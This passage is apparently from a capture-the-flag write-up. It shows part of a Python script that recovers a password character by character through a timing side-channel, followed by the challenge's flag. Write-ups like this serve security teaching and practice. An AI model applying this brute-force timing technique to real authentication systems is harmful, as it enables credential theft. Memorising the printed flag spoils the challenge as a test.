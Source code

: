 ```python

        print(f'Testing: {password} | Time taken: {ETime:.2f} seconds')

        if ETime > max_time:
            max_time = ETime
            correctPassword = password

        if ETime > CDelay + margin:
            break

    return correctPassword, max_time

def main():
    currentPassword = '#' * length
    CDelay = 1

    for position in range(length):
        print(f'Finding character at position {position + 1}...')

        TPassword_list = generate(currentPassword, position)

        correctPassword, max_time = TPassword(TPassword_list, CDelay)
        correctChar = correctPassword[position]

        currentPassword = currentPassword[:position] + correctChar + currentPassword[position + 1:]
        print(f'Updated password: {currentPassword}')

        CDelay += 1

    print(f'Final password: {currentPassword}')

if __name__ == "__main__":
    main()

```

Flag: `LITCTF{kBySlaY}`

![Continue](/assets/posts/PrivEscalation/continue.jpg)
